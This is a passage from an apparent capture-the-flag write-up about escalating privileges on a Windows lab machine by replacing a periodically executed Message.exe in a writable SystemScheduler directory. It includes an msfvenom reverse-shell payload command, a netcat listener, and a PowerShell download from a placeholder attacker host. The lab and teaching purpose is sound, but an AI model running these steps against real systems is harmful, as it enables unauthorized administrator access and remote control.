 The key feature here is the writable directory at `C:\Program Files (x86)\SystemScheduler`  - in a typical .dll hijacking attack, we would identify the .dll files imported by the `WService.exe` binary, replace them in the binary's parent directory with malicious .dll files of the same, and force a service restart. But this needs more than a writable directory - we need to identify the .dll files loaded by the binary, and have the appropriate permissions to restart the service (a box reboot is not an option in the CTF context). Running `tasklist /m /fi "imagename eq WService.exe"` ([microsoft docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist)) shows no .dll files loaded by the `WService.exe` binary : 

```console
C:\Windows\Temp>tasklist /m /fi "imagename eq WService.exe"
tasklist /m /fi "imagename eq WService.exe"

Image Name                     PID Modules
========================= ======== ============================================
WService.exe                  1400 N/A 
```

and the iis apppool\blog user does not have the permissions required to restart (stop / start) the service :

```console
C:\Windows\Temp>net start WindowsScheduler
net start WindowsScheduler
System error 5 has occurred.

Access is denied.
```

Further manual enumeration gives us additional options for exploiting this writable directory. The `./Events/` directory contains a `20198415519.INI_LOG.txt` file that logs the creation of a new process from `./Message.exe` every 30 seconds : 

```console
C:\Program Files (x86)\SystemScheduler\Events>20198415519.INI_LOG.txt
...snip...
09/17/21 08:56:01,Event Started Ok, (Administrator)
09/17/21 08:56:34,Process Ended. PID:3440,ExitCode:4,Message.exe (Administrator)
09/17/21 08:57:01,Event Started Ok, (Administrator)
09/17/21 08:57:33,Process Ended. PID:820,ExitCode:4,Message.exe (Administrator)
09/17/21 08:58:00,Event Started Ok, (Administrator)
09/17/21 08:58:33,Process Ended. PID:2436,ExitCode:4,Message.exe (Administrator)
09/17/21 08:59:01,Event Started Ok, (Administrator)
09/17/21 08:59:33,Process Ended. PID:3648,ExitCode:4,Message.exe (Administrator)
09/17/21 09:00:01,Event Started Ok, (Administrator)
```

`Message.exe` is in a writable location and is executed periodically by a service running as Administrator - replacing it with a .exe reverse shell should provide us with an Administrator session :

1. Create a new .exe payload named `Message.exe` with msfvenom (this is required because the target port is hardcoded in the binary - we can't just reuse the previously created shell : `msfvenom -p windows/shell_reverse_tcp LHOST=ATTACK-IP LPORT=6666 -f exe > Message.exe`)
2. Host the payload on HTTP on the attack machine (`python3 -m http.server 80`) and start a netcat listener (`nc -lvnp 6666`)
3. Rename the existing `Message.exe` on the target machine (the permissions don't allow a direct overwrite of the file: `move Message.exe Message.original`)
4. Download the malicious `Message.exe` to the target machine (`powershell -c "Invoke-WebRequest -Uri 'ATTACK_IP/Message.exe' -OutFile '.\Message.exe'"`)
